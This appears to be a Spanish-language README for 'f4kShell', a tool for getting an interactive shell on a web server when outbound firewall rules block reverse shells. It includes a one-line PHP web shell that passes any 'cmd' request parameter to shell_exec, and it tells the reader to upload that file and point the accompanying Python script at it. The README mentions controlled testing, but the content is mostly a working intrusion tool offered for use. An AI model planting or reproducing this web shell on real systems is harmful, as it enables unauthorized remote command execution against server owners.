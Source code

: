 # f4kShell

* En entornos reales suelen existir reglas de red y restricciones (p. ej. reglas de firewall o filtros que bloquean conexiones salientes) que impiden establecer shells reversas tradicionales. Por eso, en pruebas controladas es interesante estudiar técnicas alternativas para recuperar una sesión interactiva y entender los riesgos asociados a la ejecución remota de comandos desde un servidor web.

* Basta con colocar en el servidor un archivo PHP similar al mostrado abajo, cuyo propósito es ejecutar comandos en el entorno remoto.

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```
* Con el archivo ya en el servidor, basta ejecutar el script (no olvides modificar la ruta del "cmd.php" dentro del script 
"f4kshell.py"para que apunte al fichero PHP y ruta correcta). Abajo se muestra un ejemplo de lo que permite realizar.

![imagen](https://i.ibb.co/8n5hZHWs/cara.png)
